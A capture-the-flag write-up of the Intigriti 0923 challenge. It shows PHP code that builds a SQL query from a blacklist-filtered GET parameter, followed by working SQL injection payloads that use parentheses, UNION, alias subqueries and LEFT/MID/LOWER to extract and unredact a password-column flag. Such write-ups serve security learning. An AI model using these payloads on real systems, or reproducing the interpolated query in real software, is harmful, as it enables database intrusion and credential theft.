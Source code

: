 # Writeup Intigriti challenge-0923

Tags: writeup Created time: September 27, 2023 6:48 PM Created time 1: September 27, 2023 6:48 PM

* This is an interesting challenge, so I want to write in detail and analyze the process I followed, as well as provide a clear explanation of the issues I encountered when approaching this challenge.

> **Overview**

* The challenge interface looks like this:
* We have full access to the source code in path [`challenge.php?showsource=1`](http://challenge-0923.intigriti.io/challenge.php?showsource=1) , so this is a whitebox challenge. Let's read and analyze it together

```php
$max = 10;

if (isset($_GET['max']) && !is_array($_GET['max']) && $_GET['max']>0) {
    $max = $_GET['max'];
    $words  = ["'","\"",";","`"," ","a","b","h","k","p","v","x","or","if","case","in","between","join","json","set","=","|","&","%","+","-","<",">","#","/","\r","\n","\t","\v","\f"]; // list of characters to check
    foreach ($words as $w) {
        if (preg_match("#".preg_quote($w)."#i", $max)) {
            exit("H4ckerzzzz");
        } //no weird chars
    }       
}

try{
//seen in production
$stmt = $pdo->prepare("SELECT id, name, email FROM users WHERE id<=$max");
$stmt->execute();
$results = $stmt->fetchAll();
}
catch(\PDOException $e){
    exit("ERROR: BROKEN QUERY");
}
```

Quick explanation of the code snippet above.

1. The code checks if a GET parameter named `**max`\*\* is present in the URL and if it meets certain criteria. It ensures that `**max`\*\* is not an array and that its value is greater than 0 → So it must be a number.
2. An array named **`$words`** is defined, which contains a list of characters to check for in the `**max`\*\* parameter. This list includes various characters that are often associated with security vulnerabilities when handling user input.
3. The code then iterates through each character in the **`$words`** array using a **`foreach`** loop. Inside the loop, it uses a regular expression (**`preg_match`**) to check if the character exists in the `**max`\*\* parameter. If any of these characters are found in the `**max`\*\* parameter, it exits the script with the message "H4ckerzzzz." → **yeah we have to bypass this**
4. After validating the `**max`\*\* parameter, the code attempts to execute a database query. It uses the **`prepare`** method to create a prepared statement with a SQL query that selects `**id` , `name`\*\* and `**email`\*\* from a `**users`\*\* table where `**id`\*\* is less than or equal to the value of **`$max`**.
5. The prepared statement is executed using the **`execute`** method, and the results are fetched into the **`$results`** variable using **`fetchAll`**.

> So the first question is **How we can bypass that blacklist and trigger SQLi?**

* At first, I tried many different approaches, but I was limited by characters like `'`, `"`, `;`, `,` which are necessary for SQLi
* When using only **`'`**, I got some information, but it's essentially because the value of **`max`** needs to be a number to satisfy the condition **`$_GET['max']>0`**, and of course, I got blocked.
* After a day of searching and researching, I observed that what was necessary at this point was the ability to perform a UNION, and what we needed most was to bypass spaces.
* Of course, none of common payload like **(/**/), %09, %0D, %0A….\*\* were effective as they are all blacklisted characters.
* Play around and printing out all the special characters that weren't filtered, I noticed something interesting: **parentheses** `()` weren't filtered.
  * With this characters, we can immediately execute the **UNION** query. However, we need to consider the initial value of the `max` variable, which should be a number to satisfy the condition `$_GET['max']>0`. So, I used **`1*(1)union(select(1),(2),(3))`** because the character `*` is not blocked\*\*.\*\* Of course, it's easy to recognize that this is MySQL.

> Now, we encountered the **second issue**: How to query the value of the **password?**

* At this point, despite my efforts, I was stuck until I received the first hint from INTIGRITI.
* I searched around Google and found [**this article**](https://secgroup.github.io/2017/01/03/33c3ctf-writeup-shia/). It turned out to be the way to Bypass Column Names Restriction exactly. In essence, it goes like this:
  * **MySQL** supports aliases, which are used to give a table or a column in a table a temporary name. Aliases are often used to make column names more readable or to provide a shorter name for a table or column when writing SQL queries

```sql
mysql> select 1 as alias from users;

+-------+
| alias |
+-------+
|     1 |
+-------+
```

* An alias is created with the `**AS`\*\* keyword, which violates the blacklist. However, an interesting point is that we can still create aliases without using the `**AS**` keyword, as follows:

```sql
mysql> select 1 from (select 1,2,3,4 union select * from users)alias;

+-------+
| alias |
+-------+
|     1 |
+-------+
```

* One great feature of aliases is that they allow us to directly query a column using the column's name within the alias. For example, if we have a column named `**column_name`\*\* in a table called `**alias` →\*\* we can query it using the syntax `**alias.column_name**`
* And when we use the query **`select 1, 2, 3, 4 union select * from users`**, we're actually assigning names to 4 columns, virtual names being 1, 2, 3, and 4. After the **union** with the `**users`\*\* table, we can query the values of the `**password`\*\* column through without explicitly referencing the `**password`\*\* keyword.

```sql
mysql> select F.4 from (select 1, 2, 3, 4 union select * from users)F;
+-------------+
| 4           |
+-------------+
| 4           |
| password    |
+-------------+
```

* This query means I am querying the value of the fourth column in the newly created table F (at this point, table F includes 4 columns: id, name, email, **password** from the users table and the values 1, 2, 3, 4 correspondingly).
* So, returning to the challenge, after combining the above idea of bypassing spaces using parentheses, we get the following payload:

```sql
1*(1)union(select(1),(2),(F.4)from(select(1),(2),(3),(4)union(select*from(users)))F)
```

* And got the flag….
* At this point, I thought it was all done, but I only received the string **REDACTED** ??

```php
<?php foreach ($results as $row): ?>
    <tr>
        <td><?= htmlspecialchars(strpos($row['id'],"INTIGRITI")===false?$row['id']:"REDACTED"); ?></td> 
        <td><?= htmlspecialchars(strpos($row['name'],"INTIGRITI")===false?$row['name']:"REDACTED"); ?></td>
        <td><?= htmlspecialchars(strpos($row['email'],"INTIGRITI")===false?$row['email']:"REDACTED"); ?></td>
    </tr>
<?php endforeach; ?>
```

* From this piece of code, we can understand that when displaying the value of a row, if there's the term \*\*`INTIGRITI`\*\*it \*\*\*\*will immediately be replaced with `**REDACTED**`. However, as we know, the flag format is **INTIGRITI{..}**. So, we are confident that we're on the right track, and this is the final step.

> So, the final question is: How can we display the flag **without including** the string **INTIGRITI**?

* Here, I searched and listed all the functions in MySQL that don't include keywords from the blacklist. Some of the functions that caught my attention were **LEFT**, **MID**, and **LOWER**.
* With **LEFT and MID**: I realized that with **`LEFT(F.4,8)`**, I can see the beginning of the flag content, which is **`INTIGRIT`**, because printing the entire **`INTIGRITI`** would be blocked. So, I combined it with **MID** to display the content.

like this

* So when combine with the function **MID**, we got the flag

```php
1*(1)union(select(LEFT(F.4,8)),(MID(F.4,10)),(3)from(select(1),(2),(3),(4)union(select*from(users)))F)
```

* Observe this more clearly in the browser

> Flag: **INTIGRITI{bl4ckli5t1ng\_1z\_n0t\_7h3\_w4y}**

* Another faster way is to use `LOWER` since it only checks for the `**INTEGRITI`\*\* substring. So, simply displaying it without this substring on the screen is sufficient. That's right, using `LOWER` to convert all characters in the flag to lowercase, including the `**intergriti`\*\* substring.

```php
1*(1)union(select(LEFT(F.4,8)),(MID(F.4,9)),(LOWER(F.4))from(select(1),(2),(3),(4)union(select*from(users)))F)
```

* **However**, one noteworthy point here is that in cases where the flag contains a mixture of uppercase and lowercase characters like **`INTIGRITI{BL4CKli5t1ng_1z_n0t_7h3_W4Y}`**, using **LOWER()** might not be the best idea. But, for this specific case, it works quite well.

### Conclusion:

* This is a very interesting challenge. I have learned a new way to use aliases to bypass blacklists and perform SQL injection queries without using column names.

> **#END**

Thank you for reading 💚.

* If you have any feedback, you can contact me through the following channels.

> **Giongfnef**
